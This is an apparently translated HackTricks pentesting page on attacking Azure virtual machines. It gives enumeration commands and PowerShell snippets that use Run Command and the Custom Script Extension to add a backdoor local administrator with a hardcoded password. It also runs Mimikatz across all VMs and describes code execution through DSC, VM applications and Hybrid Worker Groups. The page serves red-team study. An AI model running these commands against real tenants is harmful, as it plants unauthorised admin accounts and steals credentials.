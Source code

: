 # Az - Virtuele Masjiene & Netwerk

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basiese inligting

[Uit die dokumentasie:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure virtuele masjiene is een van verskeie tipes [op aanvraag, skaalbare rekenaarbronne](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) wat Azure bied. Tipies kies jy 'n virtuele masjien wanneer jy meer beheer oor die rekenaaromgewing nodig het as wat die ander keuses bied. Hierdie artikel gee jou inligting oor wat jy moet oorweeg voordat jy 'n virtuele masjien skep, hoe jy dit skep, en hoe jy dit bestuur.

## Azure Netwerk Inligting

Azure netwerke bevat **verskillende entiteite en maniere om dit te konfigureer.** Jy kan 'n kort **beskrywings,** **voorbeelde** en **enumerasie** opdragte van die verskillende Azure netwerk entiteite vind in:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** bied 'n veilige, volledig bestuurde RDP (Remote Desktop Protocol) en SSH (Secure Shell) toegang oplossing oor SSL deur die Azure portaal. Dit is geïntegreer binne 'n Azure Virtuele Netwerk, wat RDP en SSH konnektiwiteit na VM's met privaat IP's moontlik maak, wat die behoefte aan publieke IP's vermy. Dit maak dit 'n veiliger, meer gerieflike alternatief vir tradisionele metodes wat publieke IP toewysings en NSG reël konfigurasies vir VM toegang behels. Ontwikkelaars en IT-personeel kan veilig toegang verkry tot VM's vanaf die Azure portaal met hul webblaaiers, wat die proses vir ontwikkeling en toetsomgewings stroomlyn.

Om al die Azure Bastion Gashere in jou subskripsie te lys, kan jy die volgende opdrag gebruik:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## VM Opname
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Voer opdragte in 'n VM uit**

### **AAD Teken in in VM**

Dit is moontlik om toegang te verleen aan gebruikers wat via AzureAD geverifieer is. Byvoorbeeld, om toegang te probeer verkry tot 'n **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (dit is belangrik om die **e-pos** te gebruik met die azurecorp wat gebruik is wanneer daar probeer word om in te teken) kan jy 'n fout soos hierdie kry:

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Volg net **daardie instruksies** deur na [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) te gaan en die kode aan te dui, gebruik die e-pos en wagwoord as geloofsbriewe en jy sal in staat wees om via SSH te verbind (as daardie gebruiker genoegsame regte het om dit te doen: `Virtual Machine Administrator Login` of `Virtual Machine User Login` rol).

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Voer Aangepaste Skrip Uitbreiding Uit**

Azure virtuele masjiene (VM) uitbreidings is **klein toepassings** wat post-implementering konfigurasie en outomatisering **take** op **Azure VM's** bied. Byvoorbeeld, as 'n virtuele masjien sagteware-installasie, antivirusbeskerming of die vermoë benodig om 'n skrip binne-in dit uit te voer, kan jy 'n VM-uitbreiding gebruik.

Daarom, as jy toegang het om dit te skryf, kan jy arbitrêre kode uitvoer:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) is 'n PowerShell-gereedskap soortgelyk aan Ansible, wat gebruik word om 'n gasheer deur kode op te stel. DSC integreer met Azure, wat die opgelaai van spesifieke konfigurasie-lêers moontlik maak. Hierdie lêers moet aan 'n streng sintaksis voldoen. Opmerklik is dat die DSC-uitbreiding in Azure opdragte kan uitvoer vanaf lêers wat aan sekere opmaakvereistes voldoen, selfs al is die sintaksis nie korrek volgens DSC-standaarde nie, soos in die verskafde figuur getoon.

Die uitvoering van hierdie opdragte word gefasiliteer deur die [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) funksie in Az PowerShell. Die vereistes sluit 'n **.PS1** lêer met 'n gedefinieerde funksie in en die lêer moet in 'n **.zip** lêer gecomprimeer word. Alhoewel die sintaksis dalk nie akkuraat is vir DSC nie, sal die kode steeds uitgevoer word. Die uitbreiding sal egter die uitvoeringsstatus as "mislukking" merk, en geen uitvoer van die opdrag sal sigbaar wees nie weens die status wat deur die mislukkingboodskap oorgeskryf word.

### VM Application Definitions

VM Application Definitions stel die herhaalbare ontplooiing van geverifieerde toepassings op 'n Azure VM in staat. Hierdie hulpbron ondersteun die ontplooiing en opdatering van toepassings oor VMs. Om dit op te stel, is verskeie stappe nodig, wat opdragte soos **`New-AzGalleryApplication`** en **`New-AzGalleryApplicationVersion`** in Az PowerShell insluit.

Die uitvoering van toepassings of opdragte deur hierdie metode behels die **"VMAppExtension"**, wat outomaties geïnstalleer word wanneer 'n toepassing op 'n VM toegepas word. Die uitbreiding haal die lêer van die gespesifiseerde URI en noem dit presies soos die toepassing, sonder 'n uitbreiding. Om die lêer korrek uit te voer, moet die "ManageActions" veld in die REST API-oproep geconfigureer word om die lêer met die toepaslike uitbreiding te hernoem. Die opstelling van hierdie metode, eens voltooi, sal die struktuur vertoon soos in die verskafde figuur.

Hierdie metode van uitvoering is egter relatief stadig, wat ongeveer 3-4 minute neem om 'n toepassing of opdrag uit te voer. Die lêers wat met hierdie proses verband hou, word in spesifieke gidse gestoor (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` vir die toepassing kopie en `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` vir die uitvoeringsstatus).

Albei tegnieke bied unieke maniere om opdragte uit te voer en toepassings in Azure-omgewings te ontplooi, elk met sy eie stel vereistes, stappe en oorwegings.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) is 'n kenmerk in Azure wat Runbooks, geconfigureer in 'n Automatiseringsrekening, toelaat om op 'n Azure Virtuele Masjien (VM) wat deel uitmaak van die aangewese HWG, uitgevoer te word. Hierdie uitvoering word gefasiliteer deur 'n uitbreiding wat op die VM geïnstalleer is, wat die Runbook-kode op die VM ontplooi. 'n Belangrike aspek van hierdie proses is dat die werklike akrediteer nie 'n faktor in uitvoering is nie omdat die kode met verhoogde regte loop, spesifiek as **SYSTEM** of root, soos in die verskafde figuur geïllustreer.

'n Belangrike detail vir diegene wat Windows 10 VMs gebruik, is die noodsaaklikheid om die PowerShell-weergawe vir die Runbook spesifiek aan te dui. Dit moet ingestel word om as PowerShell Weergawe 5.1 te loop eerder as 7.1. Hierdie vereiste spruit voort uit die feit dat PowerShell 7.1 nie standaard op hierdie VMs geïnstalleer is nie, wat lei tot 'n mislukking in skripuitvoering as weergawe 7.1 gespesifiseer word.

Hierdie kenmerk van Azure bied 'n robuuste metode vir die outomatisering en bestuur van take oor hibriede omgewings, wat sentraliseerde bestuur en uitvoering van take op Azure VMs moontlik maak.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
